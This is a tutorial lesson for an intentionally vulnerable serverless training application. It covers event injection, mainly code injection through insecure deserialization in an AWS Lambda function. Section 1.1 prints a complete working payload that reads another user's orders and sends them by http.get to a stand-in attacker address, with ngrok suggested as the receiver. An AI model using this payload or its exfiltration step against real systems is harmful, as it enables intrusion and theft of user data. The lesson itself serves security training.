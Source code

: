 # LESSON #1: Event Injection

## (1.1) Code Injection via API Gateway
The application sends all request to an API GW (*`https://{string}.execute-api.{region}.amazonaws.com/{stage}/order`*). 
All requests end up being handled by a Lambda function, which invokes another Lambda function based on the incoming request.

**This function is vulnerable to Code Injection**. The function uses an insecure de-serialization for the data in the request.

Using the following payload, it is possible to inject code that will be executed by the function.

`$$ND_FUNC$$_function (){}()`

For example, to get the orders of another user, we can send the payload:
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ORDER-ORDERS\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"user\": \"12312312-1233-1233-1233-123123123123\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"<ATTACKER_REMOTE_ADDRESS>\"+JSON.stringify(d));}); }()", "cart-id":""}
```

Where the *`12312312-1233-1233-1233-123123123123`* is the user-id of the user we want to steal the data from, and *`<ATTACKER_REMOTE_ADDRESS>`* is any address that we can send the data to. E.g. [ngrok](https://ngrok.com/).

As a result, we now have the user orders:

![alt ngrok](https://i.imgur.com/CAcywDz.png)

The above example is the least of problems you can cause with such an attack. Notice that there are also admin functions :)


- - - 
## (1.2) Command Injection via S3 bucket
Event injections are not all about API calls and in serverless applications the source of the injection could be an: email (file, subject, etc.), an MQTT pub/sub, or any other cloud-resource event.

In this case, the DVSA is vulnerable to Command Injection via file name. The file is processed when uploaded to an S3 bucket. Since the bucket is configured insecurely, we can exploit it. 

To learn about this exploit, visit [Lesson #4: Insecure Cloud Configuration](../LESSONS/LESSON_04.md).

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)


